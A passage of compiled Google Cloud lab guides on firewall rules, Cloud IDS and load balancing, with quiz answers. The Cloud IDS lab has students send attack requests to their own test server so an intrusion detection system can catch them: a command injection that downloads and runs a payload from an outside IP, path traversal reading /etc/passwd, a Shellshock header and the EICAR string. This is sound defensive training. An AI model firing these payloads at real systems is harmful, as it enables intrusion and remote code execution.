Note: As you just verified, the browser-based console SSH feature used to connect to VM instances does not currently work. If you want to allow that, you need a firewall rule that allows the source IP address. However, source IP addresses for browser-based SSH sessions are dynamically allocated by the Cloud Console and can vary from session to session.
For the feature to work, you must allow connections either from any IP address, or from Google's IP address range, which you can retrieve using public SPF records. Either of these options may pose unacceptable risks, depending on your requirements. Instead, you would allow the IP address of the SSH clients you are using to connect.
Allow SSH access from Cloud Shell
Switch back to or reopen Cloud Shell.
To retrieve the external IP address of the Cloud Shell instance, run the following commands:
xxxxxxxxxxip=$(curl -s https://api.ipify.org)echo "My External IP address is: $ip"
Sample output (your IP will be different):
xxxxxxxxxxMy External IP address is: 35.229.72.135
To add a firewall rule that allows port 22 (SSH) traffic from the Cloud Shell IP address, run the following command:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-ingress-allow-ssh-from-cs \--network mynetwork --action ALLOW --direction INGRESS \--rules tcp:22 --source-ranges $ip --target-tags=lab-ssh
This firewall rule is also given a target tag of lab-ssh, which means it applies only to instances that are tagged with the lab-ssh tag.
To view the firewall rule in the Cloud Console, on the Navigation menu, click VPC network > Firewall.
It will look similar to the following, but your IP address will be different:

This firewall rule will be applied only to instances tagged with lab-ssh. It is currently not being applied to any instances.
Note: You have just created and applied a firewall rule using a tag. One issue with tags is that they must be added to instances and could possibly be added or removed inadvertently. Firewall rules can also be applied to instances by the service account used. These rules will be applied automatically to all instances that use the specified service account.
To add the lab-ssh network tag to the mynet-vm-2 and mynet-vm-1 instances, run the following commands in Cloud Shell:
xxxxxxxxxxgcloud compute instances add-tags mynet-vm-2 \--zone Zone 2 \--tags lab-sshgcloud compute instances add-tags mynet-vm-1 \--zone Zone 1 \--tags lab-ssh
Stateful firewalls
In VPC networks, firewall rules are stateful. So for each initiated connection tracked by allow rules in one direction, the return traffic is automatically allowed, regardless of any rules.
To ssh into the mynet-vm-2 instance, run the following command in Cloud Shell:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-2 --zone Zone 2
It will take several seconds to negotiate the SSH keys, but the connection should succeed. This verifies that the firewall rule is allowing the traffic.
Type
exitto log off the mynet-vm-2 instance.To ssh into the mynet-vm-1 instance, run the following command in Cloud Shell:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-1 --zone Zone 1
This connection should also succeed because the mynet-vm-1 instance is in the same network, and the firewall rule you created is allowing access to all instances.
Allow all instances on the same network to communicate via ping
While still logged in to the mynet-vm-1 instance, try pinging the mynet-vm-2instance with the command shown below. (Replace the [PROJECT_ID] with the PROJECT_ID for your lab exercise.)
xxxxxxxxxxping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
The ping command will not succeed. Even though the mynet-vm-1 and the mynet-vm-2 instances are in the same VPC network, all traffic is blocked by default unless there is a firewall rule allowing it.
Press Ctrl+C to stop ping if needed. Do not log out of the mynet-vm-1 instance yet.
To open a new Cloud Shell window, click Open a new tab (+).
To add a firewall rule that allows ALL instances in the mynetwork VPC to ping each other, run the following command:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-ingress-allow-icmp-internal --network \mynetwork --action ALLOW --direction INGRESS --rules icmp \--source-ranges 10.128.0.0/9
Note: This firewall rule does not use a target-tag and therefore applies to all instances in the network by default. There is no need to tag any instances for this firewall to take effect. This kind of firewall rule is useful if all instances in a network need the same rule, but should also be used with caution because they affect all instances.
Switch back to the first Cloud Shell session that is connected to mynet-vm-1 and run the ping again. This time it should work.
xxxxxxxxxxping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
Notice that the hostname mynet-vm-2 resolved to the internal IP address of the instance. The internal IP will start with 10.132.0 (for example, 10.132.0.2). Google Cloud resolves internal hostnames for you.
Press Ctrl+C to stop ping.
You can also try pinging the internal IP address directly and that will also work. Press Ctrl+C to stop ping.
To locate the external IP address of mynet-vm-2, on the Navigation menu, click Compute Engine > VM instances.
Click on mynet-vm-2, locate and copy the external IP address of the instance.
From the Cloud Shell session that is connected to mynet-vm-1, try to ping the external IP address of the mynet-vm-2 instance:
xxxxxxxxxxping
This should NOT work. When you ping the external IP address, the connection goes through the internet gateway, which causes the request to be NATed. The request is now coming from the external IP address of the mynet-vm-1 instance. The firewall rule is to only allow ICMP requests that come from internal IP addresses.
Press Ctrl+C to stop ping.
Click Check my progress to verify the objective.
Create custom ingress firewall rules
Task 5. Set the firewall rule priority
In this task, you set the firewall rule priority to deny ICMP traffic. You then verify that any traffic that does not match the rule priority is denied.
So far, all the rules created have been ingress allow rules, so the priority has not been important. Firewall rules can be both allow and deny, can specify ingress and egress, and have a priority from 0 to 65,535. If you do not set a priority, the default is 1,000. Rules are evaluated based on priority, starting from the lowest value. The first rule that matches gets applied.
In the first Cloud Shell session, verify that you are still connected to the mynet-vm-1 instance. You can tell because the prompt will be:
qwiklabs@mynet-vm-1:~$.
If not connected, use the following command to reconnect:
xxxxxxxxxxgcloud compute ssh qwiklabs@mynet-vm-1 --zone Zone 1
Verify that you can still ping the mynet-vm-2 instance:
xxxxxxxxxxping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
Press Ctrl+C to stop ping.
Switch to your second Cloud Shell window (or open a new one).
In the second Cloud Shell, create a firewall ingress rule to deny ICMP traffic from any IP with a priority of 500:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-ingress-deny-icmp-all --network \mynetwork --action DENY --direction INGRESS --rules icmp \--priority 500
Switch back to the first Cloud Shell connected to the mynet-vm-1 instance, and try to ping the mynet-vm-2 instance:
xxxxxxxxxxping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
It should no longer work. This new rule has a priority of 500, where the allow rule is 1,000.
Press Ctrl+C to stop ping.
Now change the deny rule to a priority of 2,000.
In the second Cloud Shell, modify the firewall rule just created and change the priority to
2000:
xxxxxxxxxxgcloud compute firewall-rules update \mynetwork-ingress-deny-icmp-all \--priority 2000
Switch back to the first Cloud Shell connected to the mynet-vm-1 instance, and try to ping the mynet-vm-2 instance again:
xxxxxxxxxxping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
This time it will work because the deny rule has a lower priority, so the allow rule is the first matching rule.
Press Ctrl+C to stop ping.
Task 6. Configure egress firewall rules
In this task, you create an egress firewall rule and set the priority to 10,000. You then verify that both ingress and egress rule allow that traffic.
From the second Cloud Shell window, list all the current firewall rules:
xxxxxxxxxxgcloud compute firewall-rules list \--filter="network:mynetwork"
Currently, the VMs are still able to ping each other because the rule that denies ICMP has a higher priority than the allow ICMP rule.
Now try an egress rule.
Create a firewall egress rule to block ICMP traffic from any IP with a priority of
10000:
xxxxxxxxxxgcloud compute firewall-rules create \mynetwork-egress-deny-icmp-all --network \mynetwork --action DENY --direction EGRESS --rules icmp \--priority 10000
List all the current firewall rules again:
xxxxxxxxxxgcloud compute firewall-rules list \--filter="network:mynetwork"
Notice that the egress rule priority is set to 10,000, which is much higher than the rules created earlier.
Switch back to the first Cloud Shell connected to the mynet-vm-1 instance and try to ping the mynet-vm-2 instance:
xxxxxxxxxxping mynet-vm-2.Zone 2.c.[PROJECT_ID].internal
It should no longer work. Even though the egress rule has a much higher priority of 10,000, it is still blocking traffic. This is because for traffic to be allowed, there must be both an ingress and egress rule allowing that traffic. The priority of ingress rules does not affect the priority of egress rules.
Press Ctrl+C to stop ping.
Click Check my progress to verify the objective.
Create a firewall rule with priority and egress firewall rule.
Congratulations!
In this lab, you did the following:
Created an auto-mode network, a custom-mode network, and associated subnetworks.
Investigated firewall rules in the default network, and then deleted the default network.
Used firewall rule features for more precise and flexible control of connections.
LAB - Getting Started with Cloud IDS
Overview
In this lab, you deploy Cloud Intrusion Detection System (Cloud IDS), a next-generation advanced intrusion detection service that provides threat detection for intrusions, malware, spyware, and command-and-control attacks. You simulate multiple attacks and view the threat details in the Google Cloud console.

Objectives
In this lab, you learn how to perform the following tasks:
Build out a Google Cloud networking environment as shown in the previous diagram.
Create a Cloud IDS endpoint.
Create two virtual machines using gcloud CLI commands.
Create a Cloud IDS packet mirroring policy.
Simulate attack traffic from a virtual machine.
View threat details in the Cloud console and Cloud Logging.
Setup
Before you click the Start Lab button
Note: Read these instructions.
Labs are timed and you cannot pause them. The timer, which starts when you click Start Lab, shows how long Google Cloud resources will be made available to you.
This Qwiklabs hands-on lab lets you do the lab activities yourself in a real cloud environment, not in a simulation or demo environment. It does so by giving you new, temporary credentials that you use to sign in and access Google Cloud for the duration of the lab.
What you need
To complete this lab, you need:
Access to a standard internet browser (Chrome browser recommended).
Time to complete the lab.
Note: If you already have your own personal Google Cloud account or project, do not use it for this lab.
Note: If you are using a Pixelbook, open an Incognito window to run this lab.
How to start your lab and sign in to the Console
Click the Start Lab button. If you need to pay for the lab, a pop-up opens for you to select your payment method. On the left is a panel populated with the temporary credentials that you must use for this lab.
Copy the username, and then click Open Google Console. The lab spins up resources, and then opens another tab that shows the Choose an account page.
Note: Open the tabs in separate windows, side-by-side.
On the Choose an account page, click Use Another Account. The Sign in page opens.
Paste the username that you copied from the Connection Details panel. Then copy and paste the password.


Note: You must use the credentials from the Connection Details panel. Do not use your Google Cloud Skills Boost credentials. If you have your own Google Cloud account, do not use it for this lab (avoids incurring charges).
Click through the subsequent pages:
Accept the terms and conditions.
Do not add recovery options or two-factor authentication (because this is a temporary account).
Do not sign up for free trials.
After a few moments, the Cloud console opens in this tab.
Note: You can view the menu with a list of Google Cloud Products and Services by clicking the Navigation menu at the top-left.

Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Output:
xxxxxxxxxxCredentialed accounts:- @.com (active)
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Output:
xxxxxxxxxx[core]project =
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
This lab will all be done using gcloud CLI commands inside Cloud Shell.
Task 1. Enable APIs
In this task you set the project ID variable and then enable the APIs required for the lab.
In Cloud Shell, to set the Project_ID environment variable, run the following command:
xxxxxxxxxxexport PROJECT_ID=$(gcloud config get-value project | sed '2d')
Enable the Service Networking API:
xxxxxxxxxxgcloud services enable servicenetworking.googleapis.com \--project=$PROJECT_ID
If prompted to authorize the command, click Authorize.
Enable the Cloud IDS API:
xxxxxxxxxxgcloud services enable ids.googleapis.com \--project=$PROJECT_ID
Enable the Cloud Logging API:
xxxxxxxxxxgcloud services enable logging.googleapis.com \--project=$PROJECT_ID
Click Check my progress to verify the objective.
Enable APIs.
Task 2. Build the Google Cloud networking footprint
In this task, you create a Google Cloud VPC network and configure private services access.
Private services access is a private connection between your VPC network and a network owned by Google or a third party. Google or the third party, entities who are offering services, are also known as service producers.
The private connection enables virtual machine (VM) instances in your VPC network and the services that you access to communicate exclusively by using internal IP addresses.
In Cloud Shell, to create a VPC, run the following command:
xxxxxxxxxxgcloud compute networks create cloud-ids \--subnet-mode=custom
If prompted to authorize the command, click Authorize.
Add a subnet to the VPC for mirrored traffic in us-east1:
xxxxxxxxxxgcloud compute networks subnets create cloud-ids-useast1 \--range=192.168.10.0/24 \--network=cloud-ids \--region=us-east1
Configure private services access:
xxxxxxxxxxgcloud compute addresses create cloud-ids-ips \--global \--purpose=VPC_PEERING \--addresses=10.10.10.0 \--prefix-length=24 \--description="Cloud IDS Range" \--network=cloud-ids
Create a private connection:
xxxxxxxxxxgcloud services vpc-peerings connect \--service=servicenetworking.googleapis.com \--ranges=cloud-ids-ips \--network=cloud-ids \--project=$PROJECT_ID
Click Check my progress to verify the objective.
Create a VPC.
Task 3. Create a Cloud IDS endpoint
In this task you create a Cloud IDS endpoint in us-east1 with a severity set to informational.
Cloud IDS uses a resource known as an IDS endpoint, a zonal resource that can inspect traffic from any zone in its region. Each IDS endpoint receives mirrored traffic and performs threat detection analysis.
Note: The creation of the IDS endpoint takes approximately 20 minutes.
To create a Cloud IDS endpoint, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud ids endpoints create cloud-ids-east1 \--network=cloud-ids \--zone=us-east1-b \--severity=INFORMATIONAL \--async
Verify that the Cloud IDS endpoint is initiated:
xxxxxxxxxxgcloud ids endpoints list --project=$PROJECT_ID
If the message Would you like to enable and retry appears, press Y.
The output should be similar to this:
Command Output
xxxxxxxxxxID: cloud-ids-east1LOCATION: us-east1-bSEVERITY: INFORMATIONALSTATE: CREATINGNETWORK: cloud-idsTRAFFIC_LOGS:
Click Check my progress to verify the objective.
Create a Cloud IDS endpoint.
Task 4. Create Firewall rules and Cloud NAT
In this task you create two firewall rules: allow-http-icmp and allow-iap-proxy.
To enable standard http port (TCP 80) connections, and ICMP protocol connections to the server VM from all sources in the cloud-ids network, you define the allow-http-icmprule.
To enable SSH connections to the VMs from the Identity-Aware Proxy IP range, you define the allow-iap-proxy_ rule.
You also configure Cloud Router and then configure Cloud NAT. As a prerequisite for Cloud NAT, a Cloud Router must first be configured in the same region. To provide internet access to VMs that don't have a public IP address, a Cloud NAT must be created in the same region. The VMs will be created without a public IP address to make sure that they are inaccessible from the internet. However, they will need access to the internet to download updates and files.
To create the allow-http-icmp rule, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud compute firewall-rules create allow-http-icmp \--direction=INGRESS \--priority=1000 \--network=cloud-ids \--action=ALLOW \--rules=tcp:80,icmp \--source-ranges=0.0.0.0/0 \--target-tags=server
Create the allow-iap-proxy rule:
xxxxxxxxxxgcloud compute firewall-rules create allow-iap-proxy \--direction=INGRESS \--priority=1000 \--network=cloud-ids \--action=ALLOW \--rules=tcp:22 \--source-ranges=35.235.240.0/20
Click Check my progress to verify the objective.
Add firewall rules to the VPC.
To create a Cloud Router, run the following command:
xxxxxxxxxxgcloud compute routers create cr-cloud-ids-useast1 \--region=us-east1 \--network=cloud-ids
To configure a Cloud NAT, run the following command:
xxxxxxxxxxgcloud compute routers nats create nat-cloud-ids-useast1 \--router=cr-cloud-ids-useast1 \--router-region=us-east1 \--auto-allocate-nat-external-ips \--nat-all-subnet-ip-ranges
Click Check my progress to verify the objective.
Create a Cloud Router.
Task 5. Create two virtual machines
In this task, you create two virtual machines (VMs). The first virtual machine is your web server, which is mirroring to Cloud IDS. The second virtual machine is the source of your attack traffic.
You establish an SSH connection to your server via Identity-Aware Proxy (IAP), check the status of your web service server, create a benign malware file on the web server, and then add content to the file.
To create a virtual machine to be a server mirroring to Cloud IDS, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud compute instances create server \--zone=us-east1-b \--machine-type=e2-medium \--subnet=cloud-ids-useast1 \--no-address \--private-network-ip=192.168.10.20 \--metadata=startup-script=\#\!\ /bin/bash$'\n'sudo\ apt-get\ update$'\n'sudo\ apt-get\ -qq\ -y\ install\ nginx \--tags=server \--image=debian-11-bullseye-v20240709 \--image-project=debian-cloud \--boot-disk-size=10GB
This command creates a Debian server in us-east1 and installs a simple web service.
Create a virtual machine to be a client sending attack traffic:
xxxxxxxxxxgcloud compute instances create attacker \--zone=us-east1-b \--machine-type=e2-medium \--subnet=cloud-ids-useast1 \--no-address \--private-network-ip=192.168.10.10 \--image=debian-11-bullseye-v20240709 \--image-project=debian-cloud \--boot-disk-size=10GB
This command prepares a Debian server in us-east1 to use as your client.
Click Check my progress to verify the objective.
Create a virtual machine.
Prepare your server
In this procedure, you validate your server and then create a benign malware payload for your client.
To establish an SSH connection to your server via IAP, run the following command:
xxxxxxxxxxgcloud compute ssh server --zone=us-east1-b --tunnel-through-iap
This command will prompt you through a series of steps to create an ssh key and the required directories.
To agree to the directory creation prompt, type Y.
When prompted for a passphrase, to use a blank passphrase, press ENTER twice.
You are now in the shell of your server VM.
Confirm that the web service is running
In this procedure, you check the status of your web service server. You create a benign malware file on the web server and then add content to the file.
To check the status of your web service, run the following Linux command:
xxxxxxxxxxsudo systemctl status nginx
The output should be similar to this:
Command Output
xxxxxxxxxx● nginx.service - A high performance web server and a reverse proxy serverLoaded: loaded (/lib/systemd/system/nginx.service; enabled; vendor preset: enabled)Active: active (running) since Tue 2021-05-25 18:01:49 UTC; 5h 24 min agoDocs: man:nginx(8)Main PID: 1347 (nginx)Tasks: 3 (limit: 4665)Memory: 4.5MCGroup: /system.slice/nginx.service├─1347 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;├─1348 nginx: worker process└─1349 nginx: worker processMay 25 18:01:49 server systemd[1]: Starting A high performance web server and a reverse proxy server...May 25 18:01:49 server systemd[1]: Started A high performance web server and a reverse proxy server.
Change directory to the web service:
xxxxxxxxxxcd /var/www/html/
Create a benign malware file on the web server. Run the following Linux command to create a text file:
xxxxxxxxxxsudo touch eicar.file
Add the following content to the newly created file:
xxxxxxxxxxecho 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' | sudo tee eicar.file
Exit the server VM shell and return to Cloud Shell:
xxxxxxxxxxexit
Task 6. Create a Cloud IDS packet mirroring policy
In this task, you create a Cloud IDS packet mirroring policy. This policy determines what traffic is mirrored to the Cloud IDS. You will then attach this policy to the newly created Cloud IDS endpoint.
As mentioned earlier, the Cloud IDS endpoint creation takes some time. Before you can proceed with this lab, the endpoint must be in an active/ready state.
1.To verify that your Cloud IDS endpoint is active, in Cloud Shell, run the following command to show the current state of the Cloud IDS endpoint:
xxxxxxxxxxgcloud ids endpoints list --project=$PROJECT_ID | grep STATE
The output should be similar to this:
Command Output
xxxxxxxxxxSTATE: READY
Continue to run this command every few minutes until the state shows READY.
Identify the Cloud IDS endpoint forwarding rule and confirm that the Cloud IDS endpoint state is READY:
xxxxxxxxxxexport FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")echo $FORWARDING_RULE
The output should be similar to this:
Command Output
xxxxxxxxxxhttps://www.googleapis.com/compute/v1/projects/md975a7fa0a53145dp-tp/regions/us-east1/forwardingRules/ids-fr-cloud--xkkerutlagop6opm
Create and attach the packet mirroring policy:
xxxxxxxxxxgcloud compute packet-mirrorings create cloud-ids-packet-mirroring \--region=us-east1 \--collector-ilb=$FORWARDING_RULE \--network=cloud-ids \--mirrored-subnets=cloud-ids-useast1
Click Check my progress to verify the objective.
Create and attach the packet mirroring policy.
Verify that the packet mirroring policy is created:
xxxxxxxxxxgcloud compute packet-mirrorings list
This gcloud command lists the packet mirroring policies and shows whether they are enabled/disabled.
The output should be similar to this:
Command Output
xxxxxxxxxxNAME: cloud-ids-packet-mirroringREGION: us-east1NETWORK: cloud-idsENABLE: TRUE
Task 7. Simulate attack traffic
In this task, you establish an SSH connection to your attacked virtual machine and simulate attack traffic from a virtual machine to your server. You do this by running a selection of curl commands that range from low severity to critical severity.
To establish an SSH connection to your attacker virtual machine through IAP, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
Note: You are now in the shell of your attacker VM and not the Cloud Shell machine.
Run the following
curlrequests in sequence to simulate low, medium, high, and critical severity alerts on the IDS:
Low Severity:
xxxxxxxxxxcurl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
Medium Severity:
xxxxxxxxxxcurl http://192.168.10.20/?item=../../../../WINNT/win.inicurl http://192.168.10.20/eicar.file
High Severity:
xxxxxxxxxxcurl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
Critical Severity:
xxxxxxxxxxcurl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
Exit the attacker virtual machine shell and return to Cloud Shell:
xxxxxxxxxxexit
Task 8. Review threats detected by Cloud IDS
In this task, you review the various attack traffic captured by the Cloud IDS in the Cloud console. The captured attack traffic profiles provide details of each threat.
In the Google Cloud console, in the Navigation menu (
Click the Threats tab.
The Cloud IDS captured various attack traffic profiles and provided the details on each threat. You may need to click Refresh if you do not see any threats. You now dive a little deeper and view threat details.
Locate the Bash Remote Code Execution Vulnerability threat, click More (
), and then select View threat details.
Note: You may have noticed that there are multiple threats that produce the same name, for example, “Bash Remote Code Execution Vulnerability”. This is expected behavior.
If you look closely, you will see that the session IDs of the threats are different. Since both VMs created are in the same subnet, we are seeing mirrored packets for both the client and server. Outbound packets from the client are being mirrored to IDS, and additionally, inbound packets to the server are being mirrored to IDS.
Now you view the details of this incident in Cloud Logging. To return to the Threats page, click the left arrow.
Click the Threats tab.
Locate the Bash Remote Code Execution Vulnerability, click More, and then select View threat logs.
A new Cloud Logging tab opens that displays the same details. This enables you to send the logs to Cloud Storage, Chronicle, or any SIEM/SOAR. You can also create custom workflows to take remediation action based on alerts, like creating a Cloud Function that triggers on an alert and creating or updating a firewall rule to block the IP address, or creating or updating a Google Cloud Armor policy.
Click Check my progress to verify the objective.
Getting Started with Cloud IDS.
Congratulations!
In this lab, you did the following:
Created a new VPC and deployed a Cloud IDS endpoint.
Deployed two VMs, created a packet mirroring policy, and then sent attack traffic.
Verified that the Cloud IDS captured the threats by viewing the threat details in the Cloud console and the threat logs in Cloud Logging.
Quiz
Which type of IAM member belongs to an application or virtual machine instead of an individual end user?
Cloud Identity domain
Google account
Google group
Service account
Correct! A service account is a special Google account that belongs to your application or a virtual machine, instead of to an individual end user.
Which IAM role contains permissions to create, modify, and delete networking resources, except for firewall rules and SSL certificates?
Network viewer
Security viewer
Security administrator
Network administrator
Correct! The network administrator role grants permission to create, modify, and delete networking resources, except for firewall rules and SSL certificates.
Advanced Security Monitoring and Analysis
Quiz
What is the primary purpose of Packet Mirroring in network security?
To filter out unwanted traffic from a network.
To encrypt network traffic for privacy.
To create a duplicate copy of network traffic for analysis.
To redirect traffic to a different network interface.
Correct! This is the core function of Packet Mirroring, enabling deep analysis of network data.
Which of the following is a key benefit of using Packet Mirroring for network security analysis?
It enables the capture and inspection of traffic without impacting network performance.
It directly prevents cyberattacks.
It automatically patches vulnerabilities in software.
It reduces network bandwidth usage.
Correct. This is the primary benefit of packet mirroring. It allows security tools to analyze network traffic without interfering with the actual flow of data.
07 Networking in Google Cloud: Load Balancing
Hybrid Load Balancing and Traffic Management
LAB - Configuring Traffic Management with a Load Balancer
Overview
Google Cloud load balancers offer traffic management capabilities that vary by load balancer.
In this lab, you create a regional internal Application Load Balancer with two backends. Each backend will be an instance group. You will configure the load balancer to create a blue-green deployment.
The blue deployment refers to the current version of your application, and the green deployment refers to a new application version. You configure the load balancer to send 70% of the traffic to the blue deployment and 30% to the green deployment. When you’re finished, the environment will look like this:

Objectives
In this lab, you perform the following tasks:
View the Google Cloud infrastructure that the load balancer will use.
Create a regional internal Application Load Balancer with two backends.
Implement traffic management on the load balancer.
Test the load balancer.
Setup
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. View the Google Cloud infrastructure that the load balancer will use
View the network, firewall rules, and Cloud Router
The network my-internal-app, with subnet-a and subnet-b and firewall rules for RDP, SSH, and ICMP traffic, has been configured for you. Additional firewall rules have been configured to allow communication between the load balancer and the backends. Later, you create a regional internal Application Load Balancer in the my-internal-app network.
In the Google Cloud console, in the Navigation menu (
Each Google Cloud project starts with the default network. In addition, the my-internal-app network was created for you as part of your network diagram.
Note the my-internal-app network with its subnets: subnet-a and subnet-b. Both subnets are in the
Regionregion.Managed instance groups in subnet-a and subnet-b were also created for you.
(Optional) Click subnet-a and observe its configuration.
(Optional) Click subnet-b and observe its configuration.
In the Navigation menu (
Firewall rule Purpose app-allow-icmp Allows ICMP communication app-allow-ssh-rdp Allows SSH and RDP over TCP ports 22 and 3389 fw-allow-health-checks Allow health checks over TCP port 80 fw-allow-lb-access Allow traffic in the 10.10.0.0/16 subnet (Optional) View the contents of each firewall rule.
In the Google Cloud console, on the Navigation menu (
View the instance groups
The instance groups were created for you. Next, you will observe the configuration details.
On the Navigation menu, click Compute Engine > VM instances. Note the two VM instances that start with instance-group-1 and instance-group-2.
Click instance-group-1.
Scroll to Network interfaces. Note that the instance group is in subnet-a, and its internal IP address is 10.10.20.2.
Return to the VM instances page, and repeat steps 2 and 3 for instance-group-2. Note that this instance group is in subnet-b, and its internal IP address is 10.10.30.2.
Create a VM for testing
You create a VM called utility-vm in subnet-a of the my-internal-app network and use it to test the load balancer.
Return to the VM instances page, and click Create instance.
Specify the following, and leave the remaining settings as their defaults:
Property Value (type value or select option as specified) Name utility-vm Region <REGION>Zone <ZONE 1>Series E2 Machine type e2-medium (2vCPU, 4 GB memory) Click OS and storage.
Click Change to begin configuring your boot disk and select the following values:
Operating system:
DebianVersion:
Debian GNU/Linux 12 (bookworm) x86/64, amd64
Click Networking.
For Network interfaces, click default.
Set the network interface properties and values as shown in the following table, and leave the remaining properties as their default values:
Property Value (type value or select option as specified) Network my-internal-app Subnetwork subnet-a Primary internal IPv4 address Ephemeral (Custom) Custom ephemeral IP address 10.10.20.50 External IPv4 address None Click Done.
Click Create. Wait for the new VM to be created.
Verify the backends
For utility-vm, click SSH to launch a terminal and connect. If you see the Allow SSH-in-browser to connect to VMs pop-up, click Authorize.
To verify the welcome page for instance-group-1-xxxx, run the following command:
xxxxxxxxxxcurl 10.10.20.2
The output is shown below. Note that the server location is set to Zone 1.
xxxxxxxxxx<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:instance-group-1-1zn8<h2>Server Location</h2>Region and Zone: Zone 1
To verify the welcome page for instance-group-2-xxxx, run the following command:
xxxxxxxxxxcurl 10.10.30.2
The output is shown below. Note that the server location is set to Zone 2.
xxxxxxxxxx<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:instance-group-2-q5wp<h2>Server Location</h2>Region and Zone: Zone 2
Which of these fields identifies the location of the backend?
Server Location
Client IP
Server Hostname
Submit
Note: This will be useful when verifying that the load balancer sends traffic to both backends.
Close the SSH terminal to utility-vm:
xxxxxxxxxxexit
Click Check my progress to verify the objective.
Finish setting up the network infrastructure.
Check my progress
Task 2. Configure the load balancer
Configure a regional internal Application Load Balancer to balance traffic between the two backends (instance-group-1 in Zone 1 and instance-group-2 in Zone 2), as shown (the region and zones may vary as per the lab requirement):

Start the configuration
In the Google Cloud console, in the Navigation menu (
Click Create load balancer.
Under Application Load Balancer (HTTP/HTTPS), click next.
For Public facing or internal, select internal and click next. This selection creates a regional internal Application Load Balancer. This choice requires the backends to be in a single region
Region.For Cross-region or single region deployment, select Best for regional workloads and click next.
Click Configure.
For Name, type my-ilb
For Region, select
RegionFor Network, select my-internal-app.
The proxy servers that implement the regional internal Application Load Balancer require IP addresses. These IP addresses are allocated automatically from a subnet that you specify.
Under Proxy-only subnet required, click Reserve subnet.
For Name, type my-proxy-subnet
For IP address range, type 10.10.40.0/24
Click Add. Wait for the proxy-only subnet to be created. When that is successful, the console displays the name of the proxy-only subnet followed by the IP address range that you specified.
Configure the blue-service backend
This backend service refers to the present ("blue") version of your application.
Click Backend configuration.
For Backend configuration, for Create or select backend service, select Create a backend service.
For Name, type blue-service.
In Backends, specify the following, and leave the remaining settings as their defaults:
Property Value (type value or select option as specified) Instance group instance-group-1 Port numbers 80 Click Done.
For Health check, select Create a health check.
Specify the following, and leave the remaining settings as their defaults:
Property Value (select option as specified) Name blue-health-check Protocol TCP Port 80 Check interval 10 seconds Timeout 5 seconds Healthy threshold 2 Unhealthy threshold 3
Note: Health checks determine which instances can receive new connections. This HTTP health check polls instances every ten seconds and waits up to five seconds for a response. After two successful probe attempts, the backend is considered to be healthy. After three failed attempts, the backend is considered to be unhealthy.
Click Save.
Click Create.
Verify that there is a blue check mark next to Backend configuration in the Google Cloud console. If there isn't, double-check that you have completed all the steps above.
Configure the green-service backend
This backend service refers to the new ("green") version of your application.
For Backend configuration, for Create or select backend service, select Create a backend service.
For Name, type green-service.
In Backends, specify the following, and leave the remaining settings as their defaults:
Property Value (type value or select option as specified) Instance group instance-group-2 Port numbers 80 Click Done.
For Health check, select Create a health check.
Specify the following, and leave the remaining settings as their defaults:
Property Value (select option as specified) Name green-health-check Protocol TCP Port 80 Check interval 10 seconds Timeout 5 seconds Healthy threshold 2 Unhealthy threshold 3 Click Save.
Click Create.
Under Backend services, you should now see two entries: one for the blue-service and another for the green-service. If you do not see the green-service, you will need to re-do the task Configure the green-service backend.
Click Ok.
Configure the "blue-green" routing rule
Create a routing rule that routes 70% of traffic to the blue-service and 30% of traffic to the green service.
Click Routing rules.
In the Routing rules panel, for Mode, select Advanded host and path rule.
Click Add host and path rule.
For Hosts, type *. The * (asterisk) matches all hosts.
Traffic management is configured using YAML format. Examine the following YAML code, and then copy and paste it into line 1 of the multi-line field Path matcher (matches, actions, and services).
